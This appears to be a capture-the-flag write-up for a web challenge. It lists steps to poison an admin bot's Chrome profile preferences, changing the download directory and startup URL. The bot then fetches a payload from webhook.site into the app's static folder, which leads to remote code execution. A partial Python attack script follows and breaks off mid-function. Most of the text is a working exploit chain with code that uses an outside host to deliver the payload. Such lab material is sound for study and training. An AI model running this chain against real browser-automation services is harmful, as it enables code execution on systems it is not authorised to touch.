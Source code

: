 ```python
```

## `Full attack exploit` 😄💥

1. Login in as a normal user just make sure u deleted previous instance and session.
2. Then one more thing to make sure after u made an account your INSTANCE and instance id should be same.
3. Trigger the bot by reporting [http://localhost:1337/](http://localhost:1337/)  this will create chrome_profile files
4. Add it in appropriate location in script 1 and host html page of script 2 with content type: application/octet-stream on [webhook.site](http://webhook.site)  and add this webhook.site link in script 1 
5. Run script 1 (it will modify the preference file: changing default download directory and adding startup_url)
6. Trigger the bot again it will go on [webhook.site](http://webhook.site) and save script 2 with name exploit.html in app/static/
7. Run the script 1 again but with changes that change download directory to /tmp and remove [webhook.site](http://webhook.site) link so that it doesn't ping webhook.site everytime bot visits localhost
8. Now trigger bot with [http://localhost:1337/static/exploit.html](http://localhost:1337/static/exploit.html) and it will be opened as webpage and boom💥 RCE !! 
9. Now this will add /static/flag.txt just visit [http://localhost:1337/static/flag.txt](http://localhost:1337/static/flag.txt) and u will see the flag ⛳


## **`Full attack script`**

u will have to host the script 2 on webhook and write your webhook site in place of dummy [webhook.site](http://webhook.site) url and u will get the flag on the terminal

```python
import requests
import os
import json
import re
import time

HOST = "http://localhost:1337/"

session = requests.Session()

def register(username, password):
    response = session.post(HOST + "/api/register", json={
        "username": username,
        "password": password,
    })

def login(username, password):
    response = session.post(HOST+"/api/login", json={
        "username": username,
        "password": password,
    })

def upload(filename, content):
    response = session.post(HOST+"/api/notes/upload", files={
        "file": (filename, content)
    })

def sanitize_filename(filename):
    return re.sub(r'[^A-Za-z0-9_/]', '', filename)

def reporting_the_url(url):
    resp = session.post(HOST+"/api/visit", json={
        'url': url
```